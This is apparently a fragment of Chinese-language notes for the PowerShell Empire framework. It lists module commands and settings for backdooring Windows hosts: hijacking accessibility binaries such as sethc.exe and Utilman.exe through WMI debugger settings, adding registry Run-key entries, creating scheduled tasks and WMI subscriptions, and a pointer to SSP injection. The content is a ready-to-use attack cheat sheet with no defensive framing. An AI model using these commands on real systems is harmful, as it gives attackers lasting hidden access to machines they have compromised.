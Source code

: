  ##### 映像劫持
	>usemodule lateral_movement/invoke_wmi_debugger
	设置Listener，ComputerName(大写)，TargetBinary(sethc.exe, Utilman.exe, osk.exe, Narrator.exe, Magnify.exe)，分别是粘滞键，轻松访问，屏幕键盘，讲述人，放大镜。
 ##### 注入注册表启动项
	>usemodule persistence/elevated/registry*
	设置Listener，注册表路径RegPath [HKLM\software\microsoft\windows\currentversion\run]
 ##### 计划任务
	>usemodule persistence/elevated/schtasks*
	设置Listener和DailyTime
 ##### WMI
	>usemodule persistence/elevated/wmi
	设置Listener
 ##### 注入SSP
	查看SSP章节